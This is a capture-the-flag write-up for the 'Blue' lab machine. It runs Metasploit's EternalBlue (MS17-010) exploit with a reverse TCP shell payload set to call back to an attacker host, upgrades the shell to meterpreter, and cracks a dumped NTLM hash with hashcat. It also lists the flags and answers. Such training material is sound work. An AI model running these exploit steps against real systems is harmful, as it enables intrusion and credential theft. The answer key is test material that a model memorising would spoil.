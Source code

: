 # Blue

## Task 1 Recon

#### How many ports are open with a port number under 1000?

```bash
sudo nmap -p-1000 10.10.172.0
# 135/tcp open  msrpc
# 139/tcp open  netbios-ssn
# 445/tcp open  microsoft-ds
```

#### What is this machine vulnerable to?

![](<../../.gitbook/assets/Screenshot from 2021-09-06 10-33-26.png>)

{% hint style="success" %}
`MS17-010`
{% endhint %}

## Task 2 Gain Access

#### Find the exploitation code we will run against the machine. What is the full path of the code?

```bash
sudo msfdb start
msf > search type:exploit ms17-010
# 0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
msf > use 0
```

{% hint style="success" %}
`exploit/windows/smb/ms17_010_eternalblue`
{% endhint %}

#### Show options and set the one required value. What is the name of this value?

```
msf > set RHOSTS 10.10.172.0
```

{% hint style="success" %}
`RHOSTS`
{% endhint %}

```
msf > set payload windows/x64/shell/reverse_tcp
msf > set LHOST 10.17.20.154
msf > exploit
^Z
```

## Task 3 Escalate

#### Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

```bash
msf > search shell_to_meterpreter
# 0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade
```

{% hint style="success" %}
`post/multi/manage/shell_to_meterpreter` &#x20;
{% endhint %}

#### Select this module. Show options, what option are we required to change?

```
msf > use 0
msf > show options
msf > set SESSION 1
```

{% hint style="success" %}
`SESSION`
{% endhint %}

```bash
msf > exploit
# Not working for unknown reasons
msf > sessions -i 2
```

![](<../../.gitbook/assets/Screenshot from 2021-09-06 11-38-21.png>)

![](<../../.gitbook/assets/Screenshot from 2021-09-06 11-39-41.png>)

![](<../../.gitbook/assets/Screenshot from 2021-09-06 11-40-22.png>)

## Task 4 Cracking

#### What is the name of the non-default user?

![](<../../.gitbook/assets/Screenshot from 2021-09-06 11-42-58.png>)

{% hint style="success" %}
`Jon`
{% endhint %}

#### Copy this password hash to a file and research how to crack it. What is the cracked password?

```bash
echo 'Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::' > hash.txt
hashcat -a 0 -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

{% hint style="success" %}
`alqfna22`
{% endhint %}

## Task 5 Find flags!

#### Flag1? This flag can be found at the system root.

![](<../../.gitbook/assets/Screenshot from 2021-09-06 11-59-09.png>)

{% hint style="success" %}
`flag{access_the_machine}`
{% endhint %}

#### Flag2? This flag can be found at the location where passwords are stored within Windows.

![](<../../.gitbook/assets/Screenshot from 2021-09-06 12-00-43.png>)

{% hint style="success" %}
`flag{sam_database_elevated_access}`
{% endhint %}

#### flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

![](<../../.gitbook/assets/Screenshot from 2021-09-06 12-05-30.png>)

{% hint style="success" %}
`flag{admin_documents_can_be_valuable}`
{% endhint %}

